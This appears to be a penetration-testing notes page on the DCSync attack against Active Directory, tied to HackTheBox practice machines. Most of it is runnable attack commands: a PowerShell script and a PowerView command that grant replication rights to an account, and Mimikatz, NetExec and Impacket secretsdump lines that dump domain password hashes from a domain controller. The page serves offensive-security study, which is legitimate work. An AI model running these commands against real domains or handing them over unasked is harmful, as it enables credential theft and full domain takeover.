 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# DCSync

## TL;DR

<div align="left">

<figure><img src="../../../.gitbook/assets/dcsync_attack.png" alt=""><figcaption><p>DCSync in a nutshell!</p></figcaption></figure>

</div>

DCSync is late-phase attack that allows an attacker to **mimic a DC** and then dump `ntds.dit`. To perform this attack, we must have control over an account that has the rights to perform domain replication, aka **DCSync rights** (Figure 1):

1. `Replicating Directory Changes`
2. `Replicating Directory Changes All`
3. `Replication-Get-Changes-In-Filtered-Set` (sometimes)

{% hint style="info" %}
**Domain/Enterprise Admins** have these rights by default.&#x20;

If we have **`WriteDacl`**rights over an account, we can assign **DCSync rights** to it.&#x20;

The **Windows Exchange Permissions** group has **DCSync rights**.

_Example:_[ _Forest_](../../../boxes/boxes/easy/forest.md#privilege-escalation)
{% endhint %}

## Windows

{% tabs %}
{% tab title="EnumRights*" %}
```powershell
dsacls "DC=domain,DC=local"
```
{% endtab %}

{% tab title="AssingRights**" %}
```powershell
$acl = get-acl "ad:DC=domain,DC=local"
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
$sid = new-object System.Security.Principal.SecurityIdentifier $user.SID
# rightsGuid for the extended right Ds-Replication-Get-Changes-All
$objectguid = new-object Guid  1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
$identity = [System.Security.Principal.IdentityReference] $sid
$adRights = [System.DirectoryServices.ActiveDirectoryRights] "ExtendedRight"
$type = [System.Security.AccessControl.AccessControlType] "Allow"
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance] "None"
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
# rightsGuid for the extended right Ds-Replication-Get-Changes
$objectguid = new-object Guid 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
Set-acl -aclobject $acl "ad:DC=domain,DC=local"
```
{% endtab %}

{% tab title="PowerView" %}
{% code overflow="wrap" %}
```powershell
Add-DomainObjectAcl -TargetIdentity "DC=domain,DC=local" -PrincipalIdentity user1 -Rights DCSync
```
{% endcode %}
{% endtab %}

{% tab title="Mimikatz" %}
```powershell
mimikatz # lsadump::dcsync /domain:HTB.LOCAL /user:HTB\administrator
```
{% endtab %}
{% endtabs %}

<details>

<summary>Notes</summary>

1. [dsacls](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771151\(v=ws.11\)) requires an elevated command prompt.\*
2. Explained [here](https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md).\*\*



</details>

## Linux

{% tabs %}
{% tab title="DCSync rights" %}
{% code overflow="wrap" %}
```bash
DCSync.py -dc htb.local -t 'CN=hacker,CN=Users,DC=htb,DC=local' 'htb.local\hacker:h@ck3r!'
```
{% endcode %}
{% endtab %}

{% tab title="NetExec" %}
```bash
nxc smb 10.10.10.161 -u hacker -p h@ck3r! --ntds --user administrator
```
{% endtab %}

{% tab title="Impacket" %}
<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>impacket-secretsdump htb.local/hacker@10.10.10.161 -just-dc-user administrator
</strong></code></pre>
{% endtab %}
{% endtabs %}

## Practice

{% tabs %}
{% tab title="Forest (Easy)" %}
{% content-ref url="../../../boxes/boxes/easy/forest.md" %}
[forest.md](../../../boxes/boxes/easy/forest.md)
{% endcontent-ref %}
{% endtab %}

{% tab title="Sauna (Easy)" %}
{% content-ref url="../../../boxes/boxes/easy/sauna.md" %}
[sauna.md](../../../boxes/boxes/easy/sauna.md)
{% endcontent-ref %}
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="DCSync" %}
{% embed url="https://www.alteredsecurity.com/post/a-primer-on-dcsync-attack-and-detection" %}
A great article about the DCSync attack.
{% endembed %}
{% endtab %}

{% tab title="Secretsump" %}
{% embed url="https://www.youtube.com/watch?v=QfyZQDyeXjQ" %}
How Secretsdump script work behind the scenes!
{% endembed %}
{% endtab %}
{% endtabs %}
